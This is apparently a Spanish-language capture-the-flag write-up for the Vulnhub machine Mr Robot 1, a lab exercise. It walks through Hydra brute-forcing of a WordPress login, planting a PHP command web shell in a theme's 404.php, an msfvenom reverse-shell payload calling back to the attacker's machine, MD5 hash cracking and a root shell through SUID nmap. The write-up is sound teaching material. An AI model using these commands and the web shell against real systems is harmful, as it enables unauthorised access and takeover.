





En este writeup, resolveré la máquina **Mr Robot 1** de **Vulnhub**, documentando cada paso y técnica empleada durante el proceso. A lo largo de este análisis, cubriré desde la recolección de información inicial hasta la explotación de vulnerabilidades y la escalada de privilegios, detallando las herramientas utilizadas y los métodos aplicados.
<!--more-->
El objetivo es proporcionar una guía detallada para aquellos interesados en aprender sobre técnicas de pentesting y hacking ético, a través de un enfoque práctico y exhaustivo. Cada etapa del proceso será explicada en detalle para facilitar la comprensión de los desafíos encontrados y las soluciones implementadas. Este writeup está diseñado tanto para novatos como para usuarios avanzados que deseen mejorar sus habilidades en la resolución de máquinas de CTF.

```
                          _           _
 _ __ ___  _ __ _ __ ___ | |__   ___ | |_ 
| '_ ` _ \| '__| '__/ _ \| '_ \ / _ \| __|
| | | | | | |  | | | (_) | |_) | (_) | |_ 
|_| |_| |_|_|  |_|  \___/|_.__/ \___/ \__|
```

- **Date WriteUp**: 25 / 05 / 2024
- **Difficulty**: beginner-intermediate

- **DATOS DE LA MAQUINA**
  - **Nombre**: Mr Robot 1
  - **Fecha de lanzamiento**: 28 Jun 2016
  - **Autor**: Leon Johnson
  - **Serie**: Mr-Robot

- **Informacion de Archivo**
  - **Nombre de Archivo**: mrRobot.ova
  - **Tamaño del archivo**: 704MB
  - **Descarga**
  [mrRobot.ova](https://download.vulnhub.com/mrrobot/mrRobot.ova) (Size: 704MB)
  - **Checksum**
    - **MD5**: BC02C42815EAC4E872D753E1FD12DDC8
    - **SHA1**: DC0EB84DA4C62284C688590EE092868CE84A09AB

- **Descripcion**
  
  Basado en el programa Mr. Robot.
  
  Esta VM tiene tres claves ocultas en diferentes ubicaciones. Tu objetivo es encontrar los tres. Cada clave es progresivamente difícil de encontrar.
  
  La VM no es demasiado difícil. No existe ninguna explotación avanzada ni ingeniería inversa. El nivel se considera principiante-intermedio.

---

## Resolucion de la maquina

Usaré una distribucion Kali OS como maquina atacante.


## Fase de Fingerprinting / Reconocimiento (Reconnaissance)

### Descubrimiento de IP objetivo en la red

```bash
sudo netdiscover -r 10.0.2.0/24 -i eth0
```


### Descubrimiento de Puertos en objetivo

```bash
sudo nmap -sS -sC -sV -O 10.0.2.18
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 04:49 EDT
Nmap scan report for 10.0.2.18
Host is up (0.00097s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:ED:86:2F (Oracle VirtualBox virtual NIC)
Aggressive OS guesses: Linux 3.10 - 4.11 (98%), Linux 3.2 - 4.9 (94%), Linux 3.2 - 3.8 (93%), Linux 3.13 or 4.2 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 3.18 (92%), Linux 3.13 (91%), Linux 3.16 - 4.6 (91%), Linux 2.6.26 - 2.6.35 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.13 seconds
```

### Resumen de los hallazgos

| PORT    | STATE  | SERVICE  | VERSION      |
| ------- | ------ | -------- | ------------ |
| 22/tcp  | closed | ssh      | -            |
| 80/tcp  | open   | http     | Apache httpd |
| 443/tcp | open   | ssl/http | Apache httpd |

Linux 3.10 - 4.11 (98%)

## Fase de Footprinting / Exploración (Scanning)

### Exploracion puerto 80

Navegacion en el puerto 80 presenta una animacion de estilo mr robot y nos da un menu donde puedo realizar ciertas acciones, ver videos, etc.


Realizo una busqueda de archivos y carpetas con diferentes herramientas con los siguientes comandos:

```bash
dirsearch -u http://10.0.2.18:80 -i200    
```

```bash
[05:15:27] 200 -    0B  - /favicon.ico                                      
[05:15:48] 200 -  504KB - /intro                                            
[05:15:55] 200 -    7KB - /license                                          
[05:15:55] 200 -    7KB - /license.txt                                      
[05:16:42] 200 -    4KB - /readme                                           
[05:16:42] 200 -    4KB - /readme.html                                      
[05:16:46] 200 -   41B  - /robots.txt                                       
[05:16:58] 200 -    0B  - /sitemap                                          
[05:16:58] 200 -    0B  - /sitemap.xml
[05:16:58] 200 -    0B  - /sitemap.xml.gz
[05:24:43] 200 -   21B  - /wp-admin/admin-ajax.php                          
[05:24:44] 200 -    0B  - /wp-config.php                                    
[05:24:44] 200 -    0B  - /wp-content/                                      
[05:24:45] 200 -    0B  - /wp-content/plugins/google-sitemap-generator/sitemap-core.php
[05:24:46] 200 -    0B  - /wp-cron.php                                      
[05:24:46] 200 -    1KB - /wp-login
[05:24:46] 200 -    1KB - /wp-login.php
[05:24:46] 200 -    1KB - /wp-login/
```



```bash
nikto -h 10.0.2.18:80
```


```bash
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.18
+ Target Hostname:    10.0.2.18
+ Target Port:        80
+ Start Time:         2024-05-22 05:30:52 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render ent of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-ility-scanner/vulnerabilities/missing-content-type-header/
+ /fflF32uN.action: Retrieved x-powered-by header: PHP/5.5.29.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /index: Uncommon header 'tcn' found, with contents: list.
+ /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easilyorce file names. The following alternatives for 'index' were found: index.html, index.php. Se//www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabiliti
+ /admin/: This might be interesting.
+ /image/: Drupal Link header found with value: <http://10.0.2.18/?p=23>; rel=shortlink. See: https://www.drupal.org/                                                                     
+ /wp-links-opml.php: This WordPress script reveals the installed version.                   
+ /license.txt: License file found may identify site software.                               
+ /admin/index.html: Admin login page/section found.                                         
+ /wp-login/: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies                                              
+ /wp-login/: Admin login page/section found.                                                
+ /wordpress/: A Wordpress installation was found.                                           
+ /wp-admin/wp-login.php: Wordpress login found.                                             
+ /wordpress/wp-admin/wp-login.php: Wordpress login found.                                   
+ /blog/wp-login.php: Wordpress login found.                                                 
+ /wp-login.php: Wordpress login found.                                                      
+ /wordpress/wp-login.php: Wordpress login found.                                            
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.          
+ 8102 requests: 0 error(s) and 18 item(s) reported on remote host                           
+ End Time:           2024-05-22 05:35:20 (GMT-4) (268 seconds)                              
---------------------------------------------------------------------------                  
+ 1 host(s) tested
```

#### Resumen de resultados de la exploracion de directorios y ficheros

Se ha localizado lo siguiente que puede ser muy interesante de comprobar:

- archivo /robots.txt
- instalacion WordPress
  - /wordpress/wp-login.php Login de wordpress en pagina por defecto. (wp-login.php).
  - Archivo wp-config.php que podria contener las credenciales.
  - Archivo wp-links-opml.php que podria mostrar la version instalada.  
- archivo /license.txt

#### Comprobacion de los hallazgos de la exploracion en el puerto 80

##### Comprobacion del archivo robots.txt

He localizado un archivo robots.txt, compruebo su contenido.

Compruebo : [robots-txt-endpoint] [http] [info] http://10.0.2.6/robots.txt


El archivo robots.txt contiene un archivo fsocity.dic y un archivo key-1-of-3-.txt

Descargo ambos archivos mediante el comando:

```bash
wget http://10.0.2.18:80/fsocity.txt

wget http://10.0.2.18:80/key-1-of-3.txt
```


Compruebo el contenido de los archivos.

```bash
cat fsocity.dict | more
```


Es un diccionario. Para ver cuantas lineas tiene el diccionario ejecuto el comando `cat fsocity.dict | wc -l` y nos da 858160 lineas.


Compruebo el fichero `key-1-of-3.txt`  y obtengo la primera de las flags.

```bash
cat key-1-of-3.txt | more
```


Obtengo la primera flag: **[073403c8a58a1f80d943455fb30724b9]**

##### Comprobacion de la instalacion Wordpress

Otro de los hallazgos ha sido que parece haber un Wordpress instalado en el servidor.

Compruebo el acceso atraves del navegador


El archivo `wp-links-opml.php` pacere que revela la version instalada de wordpress.


Al comprobarlo nos da la version 4.3.33 de WordPress.

###### Escaneo WPSCAN

```bash
wpscan --url http://10.0.2.18 
```


Como tengo el diccionario que encontre en robots.txt lo uso para hacer fuerza bruta en el login de wordpress, pero para ello voy a comprobar que el diccionario no tenga duplicados y si los tuviera eliminarlos teniendo un diccionario mas limpio.

```bash
sort fsocity.dic | uniq | wc -l
```



Veo que se obtienen 11451 lineas unicas. Asi que creo un fichero fsocity.dic.uniq con el comando

```bash
sort fsocity.dic | uniq > fsocity.dic.uniq
```


Con esto he obtenido un diccionario sin repeticiones de solo 11451 lineas, mucho mas manejable que las 858160 lineas originales.

Voy a intentar realizar fuerza bruta contra el login de wordpress usando hydra con el diccionario mejorado.

Tiro el comando siguiente con el que realizo un ataque usando la clave "wedontcare" (no me importa) ya que lo que busco es saber el usuario para poder despues intentar romper su clave.

```bash
hydra -vV -L fsocity.dic.uniq -p wedontcare 10.0.2.18 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```


Encuentro un nombre valido con este diccionario: **elliot**


Uso hydra de nuevo para intentar romper la clave del usuario intentando la fuerza bruta con el mismo diccionario.

```bash
hydra -vV -l elliot -P fsocity.dic.uniq 10.0.2.18 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
```


Al poco tiempo de comenzar el ataque se detecta la contraseña del usuario: **ER28-0652**


He conseguido las siguientes credenciales:

| Usuario | Password  |
| ------- | --------- |
| elliot  | ER28-0652 |

## Fase de explotacion

### Acceso al panel de control con las credenciales obtenidas

Con estas claves puedo acceder al panel de administracion de wordpress, pero lo mas importante es que con esta credencial y usando el exploit adecuado podria cargar una shell.


### Obtencion de shell remota

Para lograr esto puedo buscar en metasploit para comprobar si existe un exploit para wordpress que me permita cargar una shell.

#### Obtencion de shell usando metasploit

Cargo metasploit con `msfconsole` y realizo una busqueda con `search wordpress shell` y obtengo los siguientes resultados


Voy a usar `exploit/unix/webapp/wp_admin_shell_upload`, compruebo las opciones a configurar para poder realizar con exito el ataque.


Defino el nombre de usuario, la clave y el host remoto.

```bash
set USERNAME elliot
set PASSWORD ER28-0652
set RHOST 10.0.2.18
```


Creo una shell reversa desde msfvenom que apunte a mi maquina kali y al puerto 4444 con el comando:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.14 LPORT=4444 -f raw > /home/kali/desktop/mi_reverse_shell.php
```


Con el acceso al panel de administracion de wordpress subo el fichero generado.


No he podido aun realizar la carga de mi shell en la web ya que todas me exigen un formato de archivo en concreto.

#### Obtencion de shell modificando archivo legitimo de Wordpress

Se me ha ocurrido modificar un archivo legitimo del tema para que cuando cargue se ejecute la shell. Para ello voy a la seccion donde estan los temas, busco el tema activado y busco un archivo que solo se ejecute bajo ciertas circunstancias como puede ser una pagina 404 de error preestablecida.


Añado una minishell para ejecutar comandos que pase como parametros en la direccion de la pagina.

```php
<?php
if(isset($_REQUEST['cmd'])){
echo "<pre>";
$cmd = ($_REQUEST['cmd']);
system($cmd);
echo "</pre>";
die;
}
?>
```



Compruebo que funciona la nueva pagina 404.php y que carga un mensaje de como usar la minishell


Ejecuto un list de ficheros para comprobar el funcionamiento de la minishell y aparece el listado de ficheros del servidor.


Pruebo a leer el fichero passwd y compruebo que puedo verlo


```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
```

Esta shell se me queda algo pequeña, por lo que busco en google php reverse shell y encuentro el [github de pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell.git)

Clono el repositorio para usarlo

```bash
git clone https://github.com/pentestmonkey/php-reverse-shell.git
```




Edito el fichero php-reverse-shell.php y veo que viene especificado en su interior que debo modificar.


Cambio los valores para las variables ip y puerto, por la ip de mi maquina kali y un puerto libre en mi maquina.


Una vez modificado los valores copio el contenido del fichero php-reverse-shell.php y lo pego en el fichero 404.php

Pongo mi maquina a la escucha en el puerto 4444


Y ahora visito la pagina 404.php para ejecutar la shell y en la terminal donde he dejado la escucha en el puerto 4444 consigo una shell de la maquina.


Modifico el bash para tener una terminal con funcionalidades con el comando:

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```


Compruebo directorio de home y encuentro que existe una carpeta de usuario llamada robot y que contiene dos ficheros, un fichero key-2-of-3.txt y otro llamado password.raw-md5


Compruebo el contenido de key-2-of-3.txt


Al comprobarlo obtengo permiso denegado, por lo que compruebo los permisos de los ficheros encontrados.


Veo que el fichero key-2-of-3.txt solo tiene permiso de lectura desde root, pero que el fichero password.raw-md5 tiene permisos de lectura desde cualquier usuario y permisos de escritura por root.

## Elevacion de privilegios

### Elevacion desde usuario daemon a usuario robot

Compruebo el archivo password.raw-md5 al cual si tengo acceso desde el usuario actual


y obtengo : `robot:c3fcd3d76192e4007dfb496cca67e13b`

Por lo que parece es usuario:clave, pero la clave parece ser el hash de la clave. El nombre del fichero me da pista del tipo de hash usado MD5.

Para comprobarlo uso hash-identifier y le paso el hash


Me devuelve MD5 como tipo posible para este hash.

El siguiente paso es intentar romper este hash. Para ello voy a usar hashcat con el comando

hashcat -a0 -m0 c3fcd3d76192e4007dfb496cca67e13b fsocity.dic.uniq

De esta manera hago un ataque MD5 por diccionario contra el hash usando el diccionario fsocity.dic.uniq


Este ataque no nos da ningun resultado


Voy a realizar el mismo ataque con un diccionario aun mayor que puede tomar mas tiempo en realizarse.


En cuestion de segundos se obtiene la clave crackeada.

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz


Con esta clave ya puedo pasar a usuario robot mediante el comando `su robot`


Compruebo si puedo acceder a los archivos de la carpeta del usuario robot y leer el contenido del fichero key-2-of-3.txt


Con esto he obtenido la 2 de las flags : **`822c73956184f694993bede3eb39f959`**

### Elevacion de privilegio a root

Con el usuario actual `robot` voy a comprobar los permisos SUID de los archivos, para ello uso el siguiente comando:

```bash
find / -perm -4000 -type f 2>/dev/null
```


Uso la herramienta searchbins mediante la cual puedo buscar en GTFObins desde la terminal.


Por ejemplo busco la posibildad de obtener shell con el binario nmap con el comando:

```bash
./searchbins.sh -b nmap -f shell
```


y obtengo que si la version de nmap es entre la 2.02 y la 5.21 puedo ejecutar comandos de shell.

Compruebo si la version de nmap se corresponde y obtengo que la version es 3.81, por lo que puedo aplicar el exploit para obtener una shell con permisos de root.

Abro la consola interactiva de nmap con `nmap --interactive` y a continuacion ejecuto a `!sh` lo que me da una shell de root.


Compruebo su directorio y encuentro el fichero key-3-of-3.txt.



Lo consulto y obtengo la tercera flag: **`04787ddef27c3dee1ee161b21670b4e4`**
